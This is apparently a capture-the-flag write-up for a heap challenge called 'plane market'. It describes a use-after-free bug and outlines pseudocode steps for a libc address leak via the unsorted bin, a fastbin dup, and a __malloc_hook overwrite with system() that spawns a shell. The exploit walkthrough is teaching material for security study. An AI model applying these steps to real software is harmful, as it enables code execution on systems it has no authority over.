 # plane market

## Vulnerability
- Use After Free
- Out of Bound (Not exploited)

## Overview
* There's 7 options. But 3 options are important.
	* ![sell plane](./sell_plane.png?raw=true)
	* ![delete plane](./delete_plane.png?raw=true)
		* Allocated with any size and freed the desired heap chunk at any time.
		* But size is integer range (4 byte).
		* the structure is the followings. **not saved in heap. just only in `plane_list`**
		```c++
		struct plane {
			char *name;		// 8 byte
			int cost;		// 4 byte --> 8 byte (cuz' alignment)
			time_t t;		// 8 byte
			char *comment;	// 8 byte
			int name_size;	// 4 byte --> 8 byte (cuz' alignment)
		}
		```
	* ![change plane name](./change_plane_name.png?raw=true)
		* Once accessed in here, it's able to access the freed heap.
		* [`Use After Free`]

## Exploit
* Memory Leak
	* Using main-arena's address from unsorted bin
	```
	sell_plane(Unsorted-bin)
	sell_plane(fastbin) <--- for not merging
	...
	free(unsorted-bin)
	sell_plane(0x00) <--- not entered name, name = main-arena's address
	view_plane(idx=0) <--- print name of first chunk
	```
	* ![1](./1.png?raw=true)

* Get Shell
	* fastbin dup using UAF + overwrite malloc hook
	```
	sell_plane(fastbin1)
	sell_plane(fastbin2)
	change_plane_name(fastbin1)
	delete_plane(fastbin2) # fastbin -> 2
	delete_plane(fastbin1) # fastbin -> 1 -> 2
	change_plane_name(fastbin1) # fastbin -> 1 -> FAKE_CHUNK (&_malloc_hook)
	...
	sell_plane(fastbin) # allocated at addr of fastbin1
	```
	* ![2](./2.png?raw=true)
	* ![3](./3.png?raw=true)
	* Allocated `&_malloc_hook - 0x3`, which is name's address.
		* Notice that name's address - 0x10 has a structure of heap chunk, fastbin.
	* Just enetered the address of `system()`.
		* malloc(size) == system(size)
		* "/bin/sh\x00" is hex values of 8 bytes, so not proper at integer type.
		* "sh" is 0x6873. (good cheet) write at address of name's size.
		* malloc(size) == mallo(&0x6873) == system("sh")
	* p.s: one shot not matched :(
	
